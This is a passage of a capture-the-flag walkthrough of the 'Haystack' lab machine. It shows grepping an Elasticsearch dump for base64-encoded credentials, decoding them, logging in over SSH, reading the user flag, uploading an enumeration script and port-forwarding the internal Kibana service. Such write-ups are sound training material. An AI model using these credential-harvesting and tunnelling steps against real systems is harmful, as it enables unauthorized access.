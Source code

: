 ```
Sun, 22 Sep 2019 03:15:29 GMT | dump complete
```
Now we can use the message from the picture to help us find credentials. Just <b>grep</b> for the word <b>clave</b>.
```
# grep clave dump
{"_index":"quotes","_type":"quote","_id":"111","_score":1,"_source":{"quote":"Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk="}}
{"_index":"quotes","_type":"quote","_id":"45","_score":1,"_source":{"quote":"Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg "}}
```
So there are two different credentials but they are both encoded in <b>base64</b> so I just need to decode it
```
# echo dXNlcjogc2VjdXJpdHkg | base64 -d
user: security

# echo cGFzczogc3BhbmlzaC5pcy5rZXk= | base64 -d
pass: spanish.is.key
```
I can now use the username <b>security</b> and password <b>spanish.is.key</b> to ssh in.
```
# ssh security@10.10.10.115
security@10.10.10.115's password:
Last login: Wed Feb  6 20:53:59 2019 from 192.168.2.154
[security@haystack ~]$
```
From here I can read the <b>user.txt</b> file.
```
[security@haystack ~]$ ls
user.txt
[security@haystack ~]$ cat user.txt
04d18bc79dac1d4***************
```
Next step is to run an enumeration script. Normally I would run <b>LinEnum.sh</b> but since I know the password to the user I am going to use *[this script](https://github.com/diego-treitos/linux-smart-enumeration)*.
```
# scp lse.sh security@10.10.10.115:/home/security
security@10.10.10.115's password:
lse.sh                                                                                             100%   30KB 226.2KB/s   00:00    
```
Two things we see is that there is another user <b>kibana</b> and that there is a service running on <b>127.0.0.1:5601</b>. If you google the port number you will see that kibana runs on that port. To make my life easier I am going to port forward the Kibana service from the box to my own machine using SSH
```
# ssh -L 5601:127.0.0.1:5601 security@10.10.10.115
security@10.10.10.115's password:
Last login: Sun Sep 22 00:34:23 2019 from 10.10.14.21
[security@haystack ~]$
```
Now if I navigate to <b>127.0.0.1:5601</b> on my local machine then I should have access to the kibana service.
